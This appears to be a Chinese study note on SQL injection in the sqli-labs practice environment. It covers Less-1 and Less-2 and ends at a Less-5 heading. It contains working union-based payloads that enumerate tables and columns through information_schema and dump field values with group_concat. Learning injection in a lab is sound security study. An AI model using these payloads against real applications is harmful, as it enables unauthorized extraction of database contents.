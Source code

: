 ﻿---
title: SQL_Injection
date: 2024-01-20 11:34:24
---

# 1. 定义



# 2. Sqllab

## 1. Less-1（字符串型）

1. `id = 1 order by 数字`。报错与不报错的交错处就是列数。

2. `group_concat()` 将查询结果拼凑成一个字符串

3. 所有的表：information_schema.tables 这个表的 table_name 这个列的值

    `id = -1 union select 1,group_concat(table_name), 3 from information_schema.tables where table_schema=database()`

    注意：`union select` 前面是 `select` 的话不要加 and
    用联合查询的时候要传入非法值/没有数据的值。

4. 查当前数据库名：`database()`

    查数据库版本：`version()`

    查询当前用户：`user()`

    显示数据库所在路径：`@@datadir`

5. 表中的所有列名：information_schema.columns 这个表的 columns_name 这个列的值

    `union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name = 'users'`

    table_schema 用来指定要查询的具体数据库名，table_name 指定要查询的表的名字

6. 显示字段值：
    `id=-1 union select 1,group_concat(字段 1,0x3a,字段 2),3,4 from xxx -- -（注入出字段值）`

7. 补充一下 `group_concat()` 函数的作用：

    > 功能：将group by产生的同一个分组中的值连接起来，返回一个字符串结果。
    >
    > 语法：**group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator '分隔符'] )**

## 2. Less-2（整数型）

1. 用 and 和 or，单双引号判断类型。
2. 整数型可以不用考虑闭合。

## 3. Less-5（报错注入，需要 MySQL 有详细错误回显）
